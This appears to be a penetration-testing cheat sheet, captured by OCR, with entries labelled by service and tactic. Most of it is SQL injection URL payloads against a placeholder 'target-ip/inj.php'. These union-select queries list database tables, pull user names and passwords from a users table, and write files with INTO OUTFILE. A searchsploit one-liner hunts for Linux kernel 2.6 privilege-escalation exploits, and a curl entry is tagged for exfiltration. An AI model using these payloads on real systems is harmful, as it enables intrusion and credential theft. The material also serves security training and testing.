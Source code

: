 # sqli
- service: sql
- service: http
- tactics: inital_access

## check if you can find a row, where you can place your output  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8`

## get the version of the database  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,@@version,5`

## get the current user  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,user(),5`

## see all tables  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables`

## get column names for a specified table  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'`

## concat user names and passwords (0x3a represents “:”)  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users`

## write into a file  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,"content",5 into OUTFILE 'outfile'`

---

# searchsploit
- service: all
- tactics: enumeration

# filter search for specific kernel versions
- `searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6`

---

# curl
- service: http
- service: imap
- tactics: exfiltration
